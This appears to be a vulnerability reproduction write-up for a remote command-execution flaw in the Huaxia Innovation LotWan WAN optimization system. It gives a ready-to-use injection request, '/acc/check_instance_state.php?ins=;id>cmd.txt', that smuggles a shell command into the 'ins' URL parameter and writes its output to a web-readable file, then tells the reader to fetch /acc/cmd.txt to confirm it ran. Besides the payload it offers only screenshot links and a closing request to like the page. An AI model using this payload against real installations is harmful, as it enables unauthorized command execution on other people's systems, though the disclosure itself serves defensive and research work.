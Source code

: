 # Huaxia Innovation LotWan WAN Optimization System check_instance_state.php Remote Command Execution Vulnerability

## Vulnerability Description

Huaxia Innovation LotWan WAN optimization system check_instance_state.php file parameters ins have command splicing, resulting in remote command execution vulnerabilities

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Huaxia Innovation LotWan WAN Optimization System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123637053.png)

The file with vulnerability is

```php
/acc/check_instance_state.php?ins=;id>cmd.txt
```

Visit `/acc/cmd.txt` again

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635943074087-b483f989-38e9-43fd-8e94-6de93605d4a7.png)



If you gain something, just like it